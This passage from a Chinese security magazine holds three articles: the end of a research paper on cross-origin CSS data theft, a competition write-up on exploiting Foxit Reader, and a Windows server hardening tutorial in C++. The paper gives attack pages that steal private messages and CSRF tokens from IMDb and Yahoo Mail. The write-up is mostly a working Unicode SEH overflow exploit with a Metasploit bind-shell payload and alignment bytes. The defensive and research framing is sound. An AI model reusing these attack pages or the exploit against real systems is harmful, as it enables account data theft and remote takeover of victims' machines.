然后，攻击者向 CSS 解析器请求 UTF-7 解码，这可通过在 `link` 标签中指定字符集完成：`<LINK REL="stylesheet" HREF="http://target.com" CHARSET="utf-7">`。如果目标站点用 Content-Type 头标签指定字符集，该方法通常失效。不幸的是，大量网站未在 Content-Type 头中指定字符集。许多网站使用 `meta` 标签指定字符集，但 CSS 解析器并不遵循 HTML 的 `meta` 标签，因此无法阻止在 `link` 标签中利用 UTF-7 编码规范的攻击者。

#### 9. 攻击实例

我们已经成功地在许多著名的网站中执行了跨源 CSS 攻击。

##### （1）IMDb

IMDb（互联网电影资料库）是一个关于电影及其相关信息的在线数据库，允许注册用户评价电影、在留言板发表留言，并相互发送私人信息。在该网站中拥有账户的攻击者能够窃取用户机密信息，步骤如下：

- ① 用主题 `body{font-family:` 给受害者账户发送私人信息。  
- ② 在登录 IMDb 的同时，诱导受害者访问网站 attackers.com。  
  攻击页面代码如下。

```html
<html>
<head>
<link rel="stylesheet" href="http://m.imdb.com/user/url2345678/boards/pm/">
<script>
function steal(){
  alert(document.body.currentStyle['fontFamily']);
}
</script>
</head>
<body onload="steal()"></body>
</html>
```

攻击者需要受害者的账户 ID；当然即使攻击者没有登录网站，也可以获得受害者的账户，因为这是用户资料公开显示的信息。浏览器使用来自受害者 IMDb 会话认证信息来检索受害者的私人信息页面，并将其作为样式表进行处理。攻击者发送的私人信息将导致 HTML 片段（包括早期私人信息）被当做 CSS 属性值吸收。随后通过 currentStyle 将该属性值透露给 JavaScript。

由于 HTML 私人信息页面中存在换行符，所以该攻击仅适用于 IE 浏览器。这就是为什么上述的 JavaScript 只使用特定的 IE 机制来检索被计算的样式。网页末尾会对此行为做出响应（即表单样式末尾会自动关闭 CSS 开放结构），所以，在窃取到首个信息之后，就没有必要再注入第二个字符串。

##### （2）邮箱分析

雅虎邮箱是基于 Web 的电子邮件服务系统。如果用户未主动注销，其 session cookie 持续两周有效。攻击者可用如下步骤从受害者邮箱中窃取主题行和跨站请求伪造标记。

- 1. 用主题行 `'}}` 给受害者发送电子邮件；
- 2. 当受害者在接收其他消息时，等待一段时间；
- 3. 用主题行 `{body{background-image:url(` 给受害者发送另一封电子邮件；
- 4. 诱使受害者访问 attacker.com 网站，同时登录雅虎邮件系统。

攻击页面代码如下：

```html
<html>
<head>
<link rel="stylesheet" href="http://m.yahoo.com/mail/">
<script>
function steal(){
  if(document.body.currentStyle){
    alert(document.body.currentStyle['backgroundImage']);
  } else {
    alert(getComputedStyle(document.body).backgroundImage);
  }
}
</script>
</head>
<body onload="steal()"></body>
</html>


```

在本次攻击中，我们使用背景图像而不是字体家族来阐述 CSS 属性。攻击页面加载 `http://m.yahoo.com/mail` 而不是 `http://www.yahoo.com/mail`，来请求移动版本的站点。为节省带宽，移动网站已将 HTML 中所有不必要的空白移除，包括换行符，因此该类 CSS 攻击在很多浏览器中成功了。失窃的 HTML 片段中包含每个发送给受害者的电子邮件的主题行。其还为每个消息存储一个隐藏的、无法猜测的令牌。攻击者使用 CSRF（跨站请求伪造操作），并利用这些标记删除信息。

Windows Live Hotmail 是由微软操作的基于 Web 的电子邮件服务系统。它同 Yahoo! Mail 一样都容易受到攻击：通过给受害者的 Hotmail 邮箱发送两封邮件就可以阅读信息并获取 CSRF 令牌，然后加载移动 Hotmail 站点 `http://mail.live.com`。与雅虎邮件系统不同的是，Hotmail 的移动网站中的 HTML 包括换行符，这就限制了对 IE 浏览器的攻击。

由于攻击者可以任意评论，许多社交网站都将很容易受到攻击。

### 防御措施

本节提出针对跨源 CSS 攻击的客户端防御措施，评估其兼容性，并用主流浏览器检测性能。同时还检查了其他的一些客户端防御技术和互补的服务器端方法。

#### 1. Content-Type 实施建议

在跨源 CSS 攻击中，攻击者的网页要求受害者浏览器将目标文档作为样式表进行解析。因为浏览器会试图解析样式表 link 或 @import 标签请求的任何对象，所以该攻击通常可行。这是 quirks 模式（向后兼容模式）的特点。在新站点推荐的“标准模式”中，只有用 HTTP 头 `Content-Type: text/css` 标记样式表时，样式表才会被处理。

当然，无论攻击页面是否为兼容模式，攻击仍会进行。然而，攻击者对标记目标页的 Content-Type 头没有任何控制权；其是由目标网站的服务器生成的。因此，即使请求页面为兼容模式，推荐使用的客户端防御措施却是为加载跨源的样式表实施 content type 头。以下提出两种建议。

- 1. **严格执行操作**：除非跨源样式表用 `text/css` 正确标识，否则严格执行操作拒绝加载。由于用 `text/html`、`application/json`、`text/rss+xml` 或其他非 CSS content type 标记目标文档时，浏览器无法将其作为样式表加载，因此攻击失败。
- 2. **最小执行操作**：仅当最小执行存在无效 content type 且语法错误时，才会阻止 CSS 资源。浏览器遭遇用错误 content type 标记的跨源样式表时，会尝试作为 CSS 解析；若在第一个完整样式规则之前遇到语法错误，则停止并丢弃该样式表；若首个标签符合正确 CSS 规则，则允许未正确配置但合法的网站继续运行。

讨论：在这 10 万个网站中，大约 1009 个 CSS 资源是用错误的 content type 标记的（排除 HTTP 错误的响应）。其中，572 个网站与标准模式下的网页联系在一起，因此已经被忽略。其余的 437 个样式表中，74 个加载了跨源请求；这些样式表在相对严格的防御措施下都不合格。因此，浏览器厂商必须部署严格执行操作。除非他们本身出错，否则接受跨源请求的最小限度执行会为样式表贴错标签。

许多网站给注册用户增加额外的内容。由于自动扫描的实际限制，实验结果都是未经认证的访问。如果由认证用户查看，有可能更多的网站将被打破。

目前几大浏览器已经采纳我们的建议。我们为 WebKit 制定并实施了最低执法操作，包括为 Mozilla 的 Gecko 引擎制定最低和最严格执法。基于我们的变动的最低执法已经在 Google 4.0.249.78 浏览器版本中配置了。基于最小变动的执法，我们已经部署在谷歌浏览器、Safari 4.0.5 以及 Firefox 3.5.11 和 3.6.7 版本。Firefox 4 不再提供严格执法，Mozilla 认为长期可用。Opera 公司也已经在 10.10 版本的浏览器中采纳了有关最低执法的建议。

#### 2. Missing 或错误 Content-Types

为保证充分的可靠性，无论何时样式表缺少 text/css 标签，包括内容类型标头丢失或存在错误值时，我们提出的防御措施都应该被应用。如表 2 所示，我们看到调查中 178 个 CSS 资源缺少 Content-Type 头。然而，如表 3 所示，大多数浏览器（著名的 Opera 例外）确实接受跨源样式表；如果它们缺少一个 Content-Type 头，即使在标准模式中也如此。Firefox 浏览器忽略了其无法解析的 Content-Type 头，并且因此也将接受带有错误 Content-Type 头的跨源样式表。最后，WebKit 和 Firefox 浏览器都将特殊类型的 `application/x-unknown-content-type` 与头标签缺少的情况同等对待。

| Incorrect Content-Type | Occurrences |
|---|---|
| text/html | 715（71%） |
| text/plain | 45（4%） |
| application/octet-stream | 29（3%） |
| other | 42（4%） |
| missing | 178（18%） |

| Content-Type | Opera | Safari | Chrome | Firefox 3.5/3.6 | Firefox 4 | IE 8 |
|---|---|---|---|---|---|---|
| text/html, other well-formed non-CSS | M | M | M | M | S |  |
| */*, other ill-formed values | M | M | M |  |  |  |
| Header missing | M |  |  |  |  |  |
| application/x-unknown-content-type | M |  |  |  |  |  |

*M = minimal defense；S = strict defense；空白 = no defense。*

如果其不能成功设置 HTML 文档中的 Content-Type 头，则防御措施能够向目标服务器打开攻击面。我们还没有观察到受此漏洞影响的网络服务，但浏览器可能希望依照 Opera 浏览器的做法并阻止该类样式表，当加载跨源请求时。在任何情况下，我们都建议服务器一直提供正确的 Content-Type 头。

#### 3. 其他客户端方法

其他防御方法可以在并未修改网络服务器的情况下被部署到浏览器中，但我们认为，所有方法都很容易被规避，否则将大大降低网络的兼容性。

#### 4. 阻止 Cookies

如果浏览器中禁用了 HTTP cookies，那么网络攻击者就无法从 Cookie 认证的网站中窃取内容。然而，完全禁用 Cookie 会导致许多网站无法使用。有些浏览器可以选择仅仅阻止“第三方” Cookies，从而避免跨源加载对 Cookie 的威胁。不幸的是，这种模式通常不会阻止正用跨源加载发送的 Cookie，因为有些站点为跨源资源请求了 session cookie。仅仅阻止 Cookie 设置并不能阻止跨源 CSS 攻击。

#### 5. 阻止 JavaScript 类型 API 函数

许多浏览器已经阻止 JavaScript 只读解析过的样式规则，当这些规则被跨源请求加载时；其实该操作可以做得更加彻底，并且它们也可以阻止对计算类型的访问，当被选中的值来自跨源样式表时。这些变化将会阻止一些攻击，但是攻击者仍然可以使用直接来自样式表、可触发 HTTP 请求的非 JavaScript 技术。

### 针对类型攻击的防御措施

在本节中，我们审查针对类型攻击的防御措施：内容嗅探 XSS 攻击、跨站脚本包含攻击以及跨渠道脚本攻击。我们也研究了几个针对轻型跨源 CSS 攻击的相关建议。

#### 1. 内容嗅探 XSS 攻击

浏览器使用内容嗅探算法来检测服务器没有正确标记的 HTML 文档。允许用户上传文件的网站也使用内容嗅探技术，以确保只有正确格式的文件（例如图像）才被接受。当网站的嗅探算法与浏览器的算法不同时，攻击者可以构建一个网站认为格式正确的“chameleon”文档；但是，浏览器会将其识别为 HTML 文档。例如，某些 MediaWiki 版本会将以 GIF+HTML 开头的文件当做图像文档对待，而某些 IE 版本则会当做 HTML 文档。

为对付这种攻击，Barth 等人提出了一个单一的、值得信赖的、可普遍采用的嗅探算法。其查找的签名都是前缀，这不包括 chameleon 文档可能存在的变种形式。它还注重 Content-Type 头，并且不会升级文档的功能，例如，它永远不会把 text/plain 文档作为 HTML 文件对待，因为 HTML 可以包含脚本而纯文本不行。微软提出了一个替代方案，即更新 HTTP 头 `X-Content-Type-Options`。这些建议旨在确保如果服务器认为特定文档不是 HTML 文档，那么浏览器就不会将其当做 HTML 文档处理。它们同样会影响跨源 CSS 攻击，因为这类攻击依赖浏览器将 HTML 文档当做 CSS 文档处理。

#### 2. 跨站脚本包含攻击

JavaScript 语法子集通常被当做数据传输格式；其中最流行的就是 JavaScript 对象 Notation（JSON）。由于浏览器的安全模式允许从不同域中导入脚本，攻击者就可以通过在脚本标签中添加 URI 地址来从该格式中窃取数据；作为跨域 CSS 负载，其为目标站点发送 HTTP 认证。通过在 JSON 前缀中加入会导致语法错误或死循环的 JavaScript 语句，服务器可以阻止该攻击。合法客户端可以被编码为在解析 JSON 之前跳过前缀；但恶意网页脚本标签会评估整个响应，并且不会忽略前缀。使用仅为 HTTP POST 请求解析 JSON 响应的服务器，也可以减轻攻击损失；脚本标签总会生成 GET 请求。但是，这可能需要 Web 应用程序进行重大的重新设计。最后，避免 ambient 认证也对抗此攻击非常有效。

#### 3. 跨渠道脚本攻击

许多消费电子设备用网络接口提供诸如 FTP 或 SNMP 在内的各种服务。跨渠道脚本攻击（XCS）是一种 XSS 攻击类型，其通过非网络渠道将任意字符串注入网络内容（例如上传文件）为网络漏洞绕过普通 sanitization。该攻击阐述了一个漏洞：某个提供服务的内容获得了错误解释。SiteFirewall 是一个客户端防御工具，其阻止 XCS 在有效载荷执行阶段的攻击，这需要网站用 cookie 提供一个站点范围策略来指定网站可能请求的被允许的外部资源。但是，这种防御工具却对跨源 CSS 攻击无效，这是因为攻击者在其策略的白名单中。

#### 4. 同源相互认证建议

同源相互认证（SOMA）机制限制了各个源彼此之间的通信，要求 Web 页面服务器和其跨源资源的服务器之间进行相互认证。每个服务器提供了两个众所周知的网址并公开跨源策略。其中一个站点列出了所有期望跨源请求的站点，另一个站点则动态地显示来自其他站点的跨源请求是否可以被接受。浏览器在响应任意跨源请求时，通过检验这两个 URL 的策略更新自己的内容。该设计可以防止将机密数据泄露给未经批准的站点，并因此降低了跨源 CSS 攻击的危害。但站点之间的协商机制带来了额外的网络交互成本，并需要及时更新所有参与的网站和浏览器。

#### 5. 跨源资源共享

跨源资源共享（CORS）策略与 SOMA 类似，但它使用 HTTP 头而不是众所周知的 URL，且对于允许范围内的站点集扩展来收集资源的方法进行了严格的控制，通常仅允许同源内的资源请求。其主要机制是使用自定义的 HTTP 头部允许浏览器和服务器相互了解对方，从而决定请求或响应是否成功。对一个简单请求（没有自定义头部，要么使用 GET，要么使用 POST，且主体是 text/plain），请求会带上一个名叫 Origin 的额外头部。Origin 头部包含请求页面的源（协议、域名、端口），这样服务器可以很容易地决定是否应该提供响应。浏览器厂商最初设计它是为了允许站点与 XMLHttpRequest 协作，同时也兼顾视频、可下载字体和其他新型资源类型的需要。这些资源默认状态都被限制为同源，并且只有当其机密信息未泄漏时才响应跨源请求。因此，CORS 使用新型资源类型降低了未来跨源攻击的危险。不幸的是，将其应用到“传统的”资源类型时，如 CSS 或 JavaScript，则大大提高了 Web 站点遭受攻击的可能。

### 结论

本文指出了浏览器允许 Web 页面执行包含跨源资源的 content type 行为存在漏洞。跨源 CSS 攻击已经出现很长时间了，但对基于 JavaScript 的 CSS 攻击的防御措施基本上无法抵御此类攻击的变种。本文提出的应对策略有两种：完全基于 content type 的严格防守机制，以及使用内容嗅探规则来改进网站兼容性的最小防御机制。共调查了 10 万个网站以评估我们建议的兼容性。我们的防御措施已经被大多数主流浏览器采用，包括 Firefox、谷歌浏览器、Safari 和 Opera。我们还介绍了针对攻击的缓解措施。容错解析拥有可扩展性，其允许 CSS 成为网络领域的主导，并允许其继续发展。随着越来越多的新功能被引入浏览器，希望它们也会考虑采用容错解析技术。我们也希望这些功能特性的设计者能充分考虑如何准确判定跨源资源内容是否存在漏洞，以避免类似的攻击。

前置知识：无  
关键词：Exploit、赛题

## Offensive Security Exploit

Weekend 赛题详解
文 Sud0  译 riusksk

### 前言

笔者 Sud0 是 Corelan 安全组织成员，刚赢得 Offensive Security Exploit Weekend（http://www.offensive-security.com/offsec/exploit-weekend/）大赛冠军，这是一场由 Offensive Security 举办的 exploit 编写大赛。这项挑战赛以存在漏洞的 Foxit Reader 软件为目标，每一位参赛者都会先得到一份 Proof of Concept exploit（https://www.exploit-db.com/exploits/15514/），并已明确指出这是一个溢出漏洞，可通过控制结构化异常处理记录（structured exception handling record）来获得权限。下面是 Offensive Security 在其官方博客上公布的信息：

> Aloha Offsec students! You've been slapped around by Bob, abused by Nicky and crushed by NNM ... Offensive Security now comes up with a brand new type of pain ... This is for all you hardcore exploit developers out there, who want a real challenge: an Offsec Exploit Weekend! ...

下面详细分析一下这次编写 exploit 的过程，这份 exploit 共花了笔者 4 个多小时。同时，我们现在必须先找到一个以 null 开头的地址。

### 详细过程

在快速分析了官方提供的那份 PDF 文件后，基本可以断定此 PDF 阅读器存在缓冲区溢出漏洞，并且漏洞出现在 “title” 域中（只需简单地使用由 Didier Stevens 编写的 pdf-parse.py 来分析此 PDF 文件即可发现上述问题）。

当我们用 Foxit Reader（用 Immunity Debugger 附载）打开 PoC PDF 文件，即可出现访问违例，如图 1 所示。
图 1

程序试图向一个超出当前栈空间的地址执行写操作，进而导致访问违例，此时 SEH 链的情况如图 2 所示。
图 2

其中 00410041 是由 AA 经 Unicode 转换后得到的，因此我们可以通过控制 SEH 来获取权限。通过按 Shift + F9 组合键跳过异常后，再次出现访问违例，此时的 SEH 链如图 3 所示。
图 3

再次跳过异常后，异常处理例程（00410041）将会被调用。通常，当用 A 覆盖 SEH 后，EIP 将会指向 41414141（跳过异常后），同时调试器也将再次中断程序，因为该地址在多数情况下属于无效地址。在本例中，我们的地址会经过 Unicode 转换，变成 00410041，显然这也是个无效地址，如图 4 所示。
图 4

因此，你必须确保在跳过异常覆盖 EIP 之后，程序会断在 00410041 上面。总之，Unicode payload 需要使用某一特定方式来实现，正如 exploit 系列教程中所讲述的一样。通常情况下，我们需要先找到一个兼容 Unicode 的地址，用它来覆盖 SE Handler，并且能够跳至 nseh，或者直接执行至 payload。这一兼容 Unicode 的地址必须以 null 字节为开头，这与基于字符串的经典缓冲区溢出不同。

首先，我们必须先确定相对 nseh/seh 的偏移量。我们先用一连串的 A（比如 10000 字节）去填充 title 域，这个可以借助 Immunity Debugger 下的命令行插件 pvefindaddr（http://redmine.corelan.be:8800/projects/pvefindaddr）来实现，如图 5 所示。
图 5

打开 mspattern.txt，然后将生成的字符串替换掉 PoC PDF 文件中的 A，如图 6 所示。
图 6

再次用 Foxit Reader（经 Immunity Debugger 附加）打开经修改的 PDF 文件，当程序崩溃后（跳过异常前），运行以下命令：`!pvefindaddr suggest`，它将给出相对 nseh 和 seh 的偏移量，如图 7 所示。
图 7

由上可知，其相对 nseh 的偏移量为 538。此脚本检测到 payload 应为 Unicode，因此需要在 payload 中放置 538 个垃圾字符，当其自动转换成 Unicode 后，就可以控制 nseh 和 seh 了。下面再看一下其所加载的模块（`!pvefindaddr modules`），如图 8 所示，我们可以发现：其中有一些模块是受 SafeSEH 保护的，例如 foxit reader.exe 应用程序是以 null 字节开头，并且未受 SafeSEH 保护的。这意味着我们可以在程序自身的内存空间中找到一个合适的 p/p/r 地址，这一合适的地址不仅需要兼容 Unicode，并且不会中断缓冲区字符串，因此两个非 null 字节必须是可输出的。ASCII 字节，同时这一指令字节不能中断 exploit 的执行流程。下面用以下命令在程序中查找所有 p/p/r 地址，然后将结果写入 `ppr.txt` 文件中：`!pvefindaddr ppr -m foxit`，结果如图 9 所示。
图 8
图 9

先过滤掉所有未兼容 Unicode 的地址，这样就得到了一份可利用的 p/p/r 地址。接下来的问题就是我们该选哪一个地址呢？其实答案很简单：这一地址必须不中断进程，而且能够帮你靠近 Shellcode，哪怕作为指令也能够执行。经过多次尝试，笔者锁定地址 `006A004B`（将 `\x4B\x6A` 写入到 SE Handler）。为了验证此方法的可行性，笔者将“AA”写入 nseh（`00410041`），然后在 SEH 结构之后填充 9000 个 B，新的 SEH 结构如图 10 所示。
图 10

在 SE Handler 地址上设置断点（`bp 006A004B`），连续两次跳过异常后（按两次 Shift + F9 组合键），程序被断下来，如图 11 所示。
图 11

按 F7 键跳过那 3 条指令（`pop ebx; pop ecx; ret 4`）。返回后在 CPU 窗口上可以看到如图 12 所示的情况。
图 12

- `41 41` = nSEH（AA）
- `4B 6A` = SE Handler
- `42 42...` = SEH 结构之后 B’s，填充 payload 的位置

在栈上执行代码，在 `0012F7A8` 的地址上方可以看到我们的 B’s，因此我们可以有很多空间来存放 payload，如图 13 所示。
图 13

很显然，这一 payload 也需要兼容 Unicode。为了在端口 4444 上绑定 Shell 进行监听，我们可以简单地使用 metasploit 中的 msfpayload 来创建 Shellcode：

```bash
./msfpayload windows/shell_bind_tcp R | ./msfencode -b '\x00' -t raw > /pentest/exploits/alpha2/bind4444.bin
```

（需要过滤 null 字节，因为 alpha2 unicode encoder 并不接受 null 字节。）在将 raw shellcode 转换成 unicode 前，你需要先指定 bufferregister，它是 exploit 的关键部分。

如果你尝试使用如 EAX、EBX、ECX、EDX 等寄存器，那么它们可能没法或者很难使其指向 payload 的起始地址。当然，你也可以用栈来 pop 出一些值，进而使其“靠近”Shellcode……但由于所有的寄存器均指向 Shellcode 的后方，而对寄存器进行加操作又可能会破坏 exploit，因此这里使用这些寄存器并不是什么好的选择。基于以上原因，Sudo 决定使用 ESP 作为 bufferregister。在 Skylined 的 alpha2 工具中有关于使用 ESP 作为 bufferregister 的描述：

> Unicode baseaddress code using esp will overwrite the byte of memory pointed to by ebp!

创建 unicode shellcode：

```bash
root@bt:/pentest/exploits/alpha2# ./alpha2 --unicode-esp < bind4444.bin


```

现在看一下栈空间的情况，如图 14 所示。
图 14

栈顶指针指向一个可控制的地址（0012F470），但空间过小以致无法存放 Shellcode。在随后的地址空间中，我们还可以看到其指向一大串的 payload 垃圾字符（0012F7A8）。因此我们只需要从栈中弹出数据，直至达到 0012F7A8，进而使 ESP 指向它，然后跳至该地址即可。这样，我们将 Shellcode 放置在此处就可以达到预期的目标。当 SEH 指针（006A004B）转换成指令后，情况如下：

```asm
0012F7AC   4B          DEC EBX
0012F7AD   006A00      ADD BYTE PTR DS:[EDX],CH


```

这就要求 EDX 必须指向可写地址。在执行 nseh/seh 处的指令代码前，寄存器情况如图 15 所示。
图 15

EDX 指向 ntdll，并非可写地址。解决此问题最简单的方法就是将栈顶值弹入 EDX，其机器码为 5A，如图 16 所示。
图 16

这 4 条指令执行之后来到如图 17 所示的地址。
图 17

现在将 nseh 设置为“`\x5a\x41`”，将 seh 设置为“`\x4b\x6a`”。而我们要跳转至的地址刚好位于栈顶的第三个数值，如图 18 所示。
图 18

接着只需写入代码以执行 pop 操作 3 次即可，或者你也可以使用 popad 指令，将每一个寄存器弹出栈。关于将指定值赋予 ESP 并跳转到该处的方法有很多，下面讲述一个笔者所采用的方法。

#### 步骤一：跳至 Shellcode

在 nseh 与 seh 处的指令被执行之后，ESP 指向 0012F3C8（此为可控制地址，但并非我们想要到达的地址，它指向 SEH 结构，因此跳过去后会执行一小段循环指令），如图 19 所示。
图 19

但这很容易解决，使用 POP ESP 指令即可使栈顶指向下一个 SEH 结构的地址 0012F7A8，结果如图 20 所示。
图 20

再执行 POPAD 指令以跳向 buffer 更远的地址，如图 21 所示。
图 21

现在寄存器遭到破坏了，导致 NOP（ADD BYTE PTR DS:[ECX],AL）无法正常执行，因为 ECX 指向一个不可写的地址。ECX 包含的数据是之前执行 popad 出栈后赋予的值，因此为了使 ECX 指向可写的地址，我们需要对栈值进行修改。首先我们需要在栈上计算出一个可修改 ECX 的指令地址，并且执行后会使其指向一个可写地址。经过多次尝试，笔者发现在地址 0012F7C1 上构造修改 ECX 的指令可帮我们达到目的。它就位于我们构造的对齐指令块的正下方，如果其后为一个可写地址，那么上面的问题就可以解决了。最后执行 RET 指令跳至一个可控制地址，而此时 ESP 又刚好指向其第 1 字节。幸运的是，RET（C3）指令并未遭到破坏（译注：原作者是在 Windows XP SP3 EN 环境下操作的，在中文系统下可能会转换成其他指令，比如我系统上就转换成 `80 8A`）。此时我们构造的整个对齐指令块内容如下：

```asm
0012F7B0  41          INC ECX
0012F7B1  006100      ADD BYTE PTR DS:[ECX],AH
0012F7B4  5C          POP ESP
0012F7B5  004100      ADD BYTE PTR DS:[ECX],AL
0012F7B8  61          POPAD
...
0012F7B9  004100      ADD BYTE PTR DS:[ECX],AL
0012F7BC  54          PUSH ESP

压入栈顶后会改写 0x0012F7C4 处的内容，
因此后面原 `\xB3\x30\xB3` 转换成的 `\x00\xB3\x00\x30\x00\xB3` 会被修改成
`\x00\x63\x00\xC8\xF7\x12`

相当于指令 add byte ptr ds:[ebx+127fc800]
0012F7BD  004100      ADD BYTE PTR DS:[ECX],AL
0012F7C0  C3          RETN
```

随后跟着以下指令（使 ECX 指向一可写地址）：

```asm
0012F7C1  00B3003000B3   ADD BYTE PTR DS:[EBX+33003000],DH


```

`00B30030` 是 `foxit reader.exe` 应用程序中的一个静态地址，是可写的，如图 22 所示。
图 22

执行上述指令块后，来到如图 23 所示的地址。
图 23

接着 ret 指令将我们带到 B’s 的起始地址，因此现在我们要做的就是将 Shellcode 放置在此处，该 Shellcode 必须使用 ESP 作为 bufferregister 来编码，最后执行 Shellcode。

注意：当 PUSH ESP 机器码被置入 buffer 后，你会发现 seh 链遭到破坏了。不过此时你也不用担心，因为我们仍然可以控制 SE record。

#### 步骤二：解决 EBP 问题

正如 skylined 所提到的，经编码后的 Shellcode 将会写入 ebp，因此 ebp 必须指向一个可写地址。目前我们的 payload 构造如下：

```python
seh = "\x5A\x41\x4B\x6A"
align = "\x41\x61\x5C\x5C\x41\x61\x41\x54\x41\xC3"  # Align + SEH
SEH = 0x006A0046
control = "\xB3\x30\xB3"  # control of ECX to point it to writeable address
# (need only two bytes, third one is junk)
# shellcode ...


```

当 Shellcode 被执行后，情况如图 24 所示。
图 24

`00610041` 为不可写地址，但 ECX 依然指向可写地址，因此只需要修改 Shellcode 使其变成写入 ECX 地址，这样即可解决该问题。所以我们将原先的机器码 `0x55` 改成 `0x61`，结果如图 25 所示。
图 25

执行代码后，运行成功！此时你也可以放置其他 Shellcode，只需要使用 ESP 作为 bufferregister，然后修改 Shellcode 的第 2 字节即可。

```python
seh = "\x5A\x41\x4B\x6A"
align = "\x41\x61\x5C\x5C\x41\x61\x41\x54\x41\xC3"
SEH = 0x006A0046
control = "\xB3\x30\xB3"
# Unicode Shellcode Alpha2 encoded ...
shellcode += "..."


```

运行结果如图 26 所示。
图 26

前置知识：VC

关键词：服务器、安全加固

## Windows 服务器安全加固之账户设置和服务管理篇
文 star影

在《Windows 服务器安全加固之组策略篇》一文中，我们介绍了通过组策略的设置加强服务器系统安全性。这篇文章将继续向大家介绍安全加固中的账户设置和服务管理，并编程实现。

### 账户设置代码实现

首先，当打开程序时，需要显示当前系统存在的用户，所以需要在对话框初始化函数中添加如下代码：

```cpp
// 定义并初始化 NetUserEnum 所需要变量
LPUSER_INFO_0 pTmpBuf, pBuf = NULL;
DWORD dwLevel(0), dwEntriesRead(0), dwTotalEntries(0),
    dwResumeHandle(0),
    dwPrefMaxLen(MAX_PREFERRED_LENGTH);
NET_API_STATUS nStatus;
// 开始进行枚举账户
do {
    // 调用枚举账户的核心函数 NetUserEnum
    nStatus = NetUserEnum(NULL, dwLevel, FILTER_NORMAL_ACCOUNT,
        (LPBYTE*)&pBuf, dwPrefMaxLen, &dwEntriesRead, &dwTotalEntries, &dwResumeHandle);
    if ((nStatus == NERR_Success) || (nStatus == ERROR_MORE_DATA)) {
        if (NULL != (pTmpBuf = pBuf)) {
            for (i = 0; i < dwEntriesRead; ++i) {
                if (pTmpBuf == NULL)
                    break;
                LPTSTR strName;
                strName = W2T(pTmpBuf->usri0_name);
                userList.AddString(strName);
                pTmpBuf++;
            }
        }
    }
    if (pBuf != NULL) {
        NetApiBufferFree(pBuf);
        pBuf = NULL;
    }
} while (nStatus == ERROR_MORE_DATA);
```

除列出当前系统存在的用户外，我们还需要检查 Guest 用户是否已禁用，代码如下：

```cpp
LPUSER_INFO_1 pBuf1 = NULL;
// 调用 NetUserGetInfo 函数获得用户状态
if (NERR_Success == NetUserGetInfo(NULL, _T("Guest"), 1, (LPBYTE*)&pBuf1)) {
    if (pBuf1 != NULL) {
        // 此处比较需要用“&”，不能用“==”
        if (pBuf1->usri1_flags & UF_ACCOUNTDISABLE) {
            // 已禁用
        } else {
            // 未禁用
        }
    }
}
```

如非特殊需要，一般服务器的 Guest 账户都是禁用的。禁用账户有两种方法：一种是通过程序调用 net 命令实现；另外一种是通过 NetUserSetInfo 函数对账户状态进行设置。两种方法的实现代码如下：

```cpp
// 下面是通过 net 命令禁用 guest
PROCESS_INFORMATION pi;
STARTUPINFO si;
// ...初始化
TCHAR command[] = _T("cmd.exe /c net user guest /active:no");
ret = CreateProcess(NULL, command, NULL, NULL, FALSE,
    NORMAL_PRIORITY_CLASS, NULL, NULL, &si, &pi);
if (ret) {
    DWORD dwExitCode;
    CloseHandle(pi.hThread);
    WaitForSingleObject(pi.hProcess, INFINITE);
    GetExitCodeProcess(pi.hProcess, &dwExitCode);
    CloseHandle(pi.hProcess);
}

// 下面是第二种方法：通过 NetUserSetInfo 函数设置账户状态
LPUSER_INFO_1 pBuf1 = NULL;
if (NERR_Success == NetUserGetInfo(NULL, _T("Guest"), 1, (LPBYTE*)&pBuf1)) {
    if (pBuf1 != NULL) {
        pBuf1->usri1_flags = UF_ACCOUNTDISABLE;
        if (NERR_Success == NetUserSetInfo(NULL, _T("Guest"), 1, (LPBYTE)pBuf1, NULL)) {
            // 禁用成功
        } else {
            // 禁用失败
        }
    }
}
```

```cpp
// end if
// end if
```

账户的删除只需要调用函数 `NetUserDel(NULL, 账户名称)` 即可，这里不再赘述。

注意：对账户设置进行操作的函数均位于 `Lm.h` 头文件中，对应的库为 `Netapi32.lib`，所以需要在代码的头部添加以下代码：

```cpp
#include <lm.h>
#pragma comment(lib, "Netapi32.lib")
```

### 服务配置代码实现

在 Windows 中有许多服务和功能是服务器用不到的，开启只会浪费内存和资源，影响启动速度和运行速度，并且成为黑客和病毒攻击的靶子，我们需要将其关闭并禁用。以下为建议禁用的服务列表：

- alerter：错误警报器
- messenger：信息传递
- Computer Browser：维护计算机列表
- DHCP Client：动态 IP 分配（静态 IP 可禁用）
- DNS Client：DNS 解析服务
- Help and Support：帮助
- Indexing Service：索引服务
- NetMeeting Remote Desktop Sharing：用 NetMeeting 实现电脑共享
- Print Spooler：打印机服务
- Remote Registry：远程注册表运行/修改
- Smart Card：智能卡
- Telephony：拨号服务
- Telnet：Telnet 服务
- Wireless Zero Configuration：无线网络设置服务
- ...

- 1. 用函数 `OpenSCManager` 建立到服务控制管理器的连接；
- 2. 用函数 `OpenService` 打开指定的服务，并获得该服务的句柄；
- 3. 用函数 `QueryServiceConfig` 查询指定服务的状态；
- 4. 根据当前服务状态判断是否需要修改状态，若需要，则调用 `ChangeServiceConfig` 函数修改；
- 5. 用函数 `CloseServiceHandle` 关闭打开的句柄。

```cpp
// 建立到服务控制管理器的连接
SC_HANDLE schSCManager;
schSCManager = OpenSCManager(NULL, NULL, SC_MANAGER_...);
```

```cpp
// ALL_ACCESS
// 打开指定服务 serviceName
SC_HANDLE schService;
schService = OpenService(schSCManager, serviceName, SERVICE_ALL_ACCESS);

// 查询指定服务的状态
DWORD nResumeHandle = 0;
LPQUERY_SERVICE_CONFIG serviceInfo = (LPQUERY_SERVICE_CONFIG)LocalAlloc(LPTR, 8 * 1024);
QueryServiceConfig(schService, serviceInfo, 8 * 1024, &nResumeHandle);

// SERVICE_DISABLED 状态表示已禁用
if (SERVICE_DISABLED == serviceInfo->dwStartType) {
    CloseServiceHandle(schService);
    CloseServiceHandle(schSCManager);
    return;
} else {
    // 若未禁用则将该服务禁用
    ChangeServiceConfig(schService, SERVICE_NO_CHANGE, SERVICE_DISABLED, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL);
    CloseServiceHandle(schService);
    CloseServiceHandle(schSCManager);
}


```
### 总结

